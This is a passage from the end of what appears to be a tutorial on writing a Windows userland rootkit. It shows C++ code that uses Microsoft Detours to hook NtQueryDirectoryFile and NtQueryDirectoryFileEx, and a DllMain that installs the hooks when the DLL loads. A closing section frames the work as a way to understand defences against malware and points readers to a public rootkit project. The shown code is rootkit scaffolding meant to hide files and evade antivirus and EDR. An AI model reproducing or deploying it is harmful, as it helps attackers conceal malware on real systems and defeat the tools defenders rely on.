DetourAttach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
DetourAttach(&(PVOID&)originalNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
DetourTransactionCommit();
return 0;
}
BOOL StopHook() {
DetourTransactionBegin();
DetourUpdateThread(GetCurrentThread());
DetourDetach(&(PVOID&)originalNtQueryDirectoryFile, HookedNtQueryDirectoryFile);
DetourDetach(&(PVOID&)originalNtQueryDirectoryFileEx, HookedNtQueryDirectoryFileEx);
DetourTransactionCommit();
return 0;
}
BOOL APIENTRY DllMain( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH:
StartHook();
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
case DLL_PROCESS_DETACH:
StopHook();
break;
}
return TRUE;
}
Conclusion
As we explored the depths of rootkits and ventured into developing one specifically for the Windows system, it became clear that the battle for cybersecurity is complex and constantly evolving.
Understanding the depth of these types of malware is crucial so we can develop effective defense mechanisms against such threats. A rootkit is characterized as a silent and persistent type of malware, and depending on its implementation, it may even challenge threat defense software such as Antivirus (AV) and Endpoint Detection and Response (EDR).
If you're interested in the development of a userland rootkit for Windows, it may be worthwhile to explore the Frosty Rootkit and try to understand its techniques for silently persisting in Windows operating systems.
References
• Microsoft Detours https://github.com/microsoft/detours
• NtQueryDirectoryFile: https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntquerydirectoryfile
• NtQueryDirectoryFileEx: https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntquerydirectoryfileex
• NTSTATUS Values: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-erref/596a1078-e883-4972-9bbc-49e60bebca55
• Frosty Rootkit: https://github.com/brosck/Frosty